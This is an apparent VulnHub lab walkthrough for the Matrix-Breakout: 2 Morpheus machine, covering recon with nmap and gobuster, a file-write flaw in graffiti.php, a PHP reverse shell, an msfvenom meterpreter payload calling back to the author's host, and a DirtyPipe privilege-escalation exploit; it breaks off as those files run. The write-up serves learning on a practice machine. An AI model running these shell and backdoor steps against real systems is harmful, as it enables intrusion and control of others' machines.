 # Matrix-Breakout: 2 Morpheus Writeup

![banner image](screenshots/banner.png)

### Description:This is the second in the Matrix-Breakout series, subtitled Morpheus:1. It’s themed as a throwback to the first Matrix movie. You play Trinity, trying to investigate a computer on the Nebuchadnezzar that Cypher has locked everyone else out from, which holds the key to a mystery.

### [download machine](https://vulnhub.com/entry/matrix-breakout-2-morpheus,757/)

### Phase 1: Reconnaissance
Getting the IP Address of the Target machine I used Netdiscover tool and got the ip address → 192.168.161.131

![discover image](screenshots/discover.png)

### Phase 2: Network Scanning

```bash
nmap -sV 192.168.161.131
```

![nmap scan](screenshots/nmap.png)

Here port 80 http is open, lets open it in browser and see what it shows

![webpage](screenshots/webpage.png)

Following is the webpage that is present on target machine, and nothing interesting in source and nothing in cookies and localstorge

Now I will use Gobuster to get the endpoints/dirs for this webapp that are hidden

```bash
gobuster dir -u http://192.168.161.131/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .php,.txt,.html
```

![gobuster enum](screenshots/gobuster.png)

So I got the following results:
/robots.txt
/graffiti.txt
/graffiti.php

Lets visit robots.txt,
Got this LOL -> There's no white rabbit here. Keep searching!

-> Let try graffiti.txt
It is just a text file nothing special

Lets try graffiti.php here we got a web page with a input box and also we can do xss attact from this

![homepage](screenshots/homepage.png)

Now let's analyse this request in Burpsuite to get the path for the file here's the data variables that are taking data

![burpsuite 1](screenshots/burp1.png)

Now when I try changing the file extension to see whether new file is getting saved or not, it is saved and message is written into the file and file gets stored on the server, now let’s try to get the source code for the graffiti.php file to know the backend working

![code](screenshots/code.png)

Here I got the source code of the graffiti.php


```php

$file="graffiti.txt";
if($_SERVER['REQUEST_METHOD'] == 'POST') {
if (isset($_POST['file'])) {
$file=$_POST['file'];
}
if (isset($_POST['message'])) {
$handle = fopen($file, 'a+') or die('Cannot open file: ' . $file);
fwrite($handle, $_POST['message']);
fwrite($handle, "\n");
fclose($file);
}
}

// Display file
$handle = fopen($file,"r");
while (!feof($handle)) {
echo fgets($handle);
echo "
\n";
}
fclose($handle);
?>

```

Here it is just getting the message from the input box and writing its value in the graffiti.txt file.

Now I will try to upload a php reverse shell File

![burpsuite reverse shell](screenshots/burp2.png)

The file got uploaded successfully, now lets try to get the reverse shell, here I am using netcat to get the connection from the target machine to my kali machine


```bash
nc -nlvp 4545
```

![access granted](screenshots/acc1.png)

Now I have reverse shell and I got the access of the user www-data

### Phase 3: Exploitation
![flag 1](screenshots/flag1.png)

We got our first flag in FLAG.txt, and also hints for the user cypher lets see we get its password

I don’t have access to /etc/shadow nor /etc/passwd, lets use metasploit to get the exploits that can be used to exploit this machine

For this I am generating a backdoor using msfvenom and uploading it /tmp of target machine


```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.161.128 LPORT=6565 -f elf -o escalate.elf
```

![upload escalte file](screenshots/esc.png)

I used wget to get the file from my kali to the target machine and then got the meterpreter session in metasploit

![muti handler](screenshots/multi.png)

Now I have make that session to run in background, and now I will use search suggester to do a exploit scan

![explot scan](screenshots/exploitScan.png)

So the target machine is vulneable to exploit/linux/local/cve_2022_0847_dirtypipe

Now I search for it and got the following https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

Now lets try using this to exploit the target machine

I got the three files and now I have given execute permission to all of them and now lets execute them

